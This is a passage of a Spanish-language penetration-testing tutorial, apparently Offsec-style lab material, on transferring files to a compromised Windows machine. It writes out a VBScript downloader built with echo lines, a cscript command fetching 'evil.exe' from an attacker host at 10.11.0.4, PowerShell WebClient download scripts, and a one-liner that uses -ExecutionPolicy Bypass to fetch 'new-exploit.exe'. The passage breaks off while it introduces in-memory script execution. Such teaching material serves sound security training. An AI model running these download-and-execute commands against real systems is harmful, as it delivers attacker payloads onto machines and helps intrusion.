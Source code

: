 ```
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo  strData = "" >> wget.vbs
echo  strBuffer = "" >> wget.vbs
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs
```

Y continuación podemos ejecutarlo con *cscript*:

```
C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
```

Sin embargo, para versiones de Windows más modernas (Windows 7 en adelante) podemos emplear PowerShell. De nuevo, el esquema es el mismo, con un comando no interactivo formamos un Downloader a partir de la clase de PowerShell *System.Net.WebClient*:

```
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Y acto seguido podemos emplear PowerShell para ejecutar el script y descargar el fichero:

```
C:\Users\Offsec> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

Primero, debemos permitir la ejecución de scripts de PowerShell (que está restringido de forma predeterminada) con la palabra clave -ExecutionPolicy y el valor Bypass . A continuación, usaremos -NoLogo y -NonInteractive para ocultar el banner del logotipo de PowerShell y suprimir el aviso interactivo de PowerShell, respectivamente. La palabra clave -NoProfile evitará que PowerShell cargue el perfil predeterminado (que no es necesario), y finalmente especificamos el archivo de script con -File :

Podemos ahorrarnos esta parte de los scripts ejecutándo el comando anterior a modo de una sola línea:

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
```

Podemos incluso ejecutar un script de localización remota en nuestra máquina (o lo que sería lo mismo descargar y ejecutar sin guardar el script) con el siguiente comando:

Supongámos que tenemos un fichero en nuestra máquina local como sigue:

```
kali@kali:/var/www/html$ sudo cat helloworld.ps1 
Write-Output "Hello World"
```

Observemos que está en el directorio raíz del servidor web, así, lo descargamos mediante una request HTTP con:
